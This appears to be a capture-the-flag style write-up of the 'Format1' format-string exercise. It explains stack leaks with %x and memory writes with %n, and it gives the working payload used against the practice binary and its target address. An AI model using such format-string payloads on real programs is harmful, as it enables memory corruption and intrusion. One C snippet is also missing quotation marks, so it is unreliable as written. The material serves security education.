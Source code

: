 # Format1

## Understanding Format String Identifiers
If a programmer uses <b>printf(string)</b> rather than <b>printf("%s\n",string)</b> then they are exposed to a format string vulnerability. When printf function is called, the arguments are pushed onto the stack in reverse order. Thus if you call printf with something like:<br>
```C
printf("A is %d and is at %08x. B is %x.\n", A, &A, B); 
```
The stack may look like:
============================
= Address of format string =
============================
= Value of A               =
============================
= Address of A             =
============================
= Value of B               =
============================
= Bottom of the stack      =
============================
But what if only two arguments are pushed onto the stack? The program begins reading values off the stack where it expects the parameter to be. 

## Format String Vulnerability
We can leak stack address/information off the stack using:<br>
```Python
python -c 'print "%x." * 100'
```
Leak far enough and we will see the string itself on the stack. This is because the format function will always be on the highest stack frame. I can also use %s to look for any human readable strings on the stack.

## Writing to Arbitrary Memory Addresses
We can actually write to locations in memory using the %n string identifier. %n will write to a variable however many bytes have been written thus far. So...<br>

```C
int main() {
	int val;
	printf(blah %n blah\n",&val);
	printf(%d\n,val);
	return 0;
}
```
Will make val be equal to 5. 
Thus, all we have to do is put a memory address that we want to write to onto the stack, read up to that memory address, and use %n to write to it.

## Challenge
I solved this problem with this payload:<br>
```bash
./format1 `python -c "print 'AAAA' + '\x38\x96\x04\x08' + 'BBBBB'  + '%x.'*125 + '%n.'"`
```
Some tips and tricks:
1. Keep the 'AAAA', 'BBBB' around the address you are trying to write to. If what your reading is off by 1 or 2 bytes, you can always add/subtract from these paddings
2. Keep the %x that will read the memory address on the stack sepearte from the multiplying '%x.'. This way, once you have it lined up, you can just turn that '%x.' into a '%n.'

Target is at 0x08049638

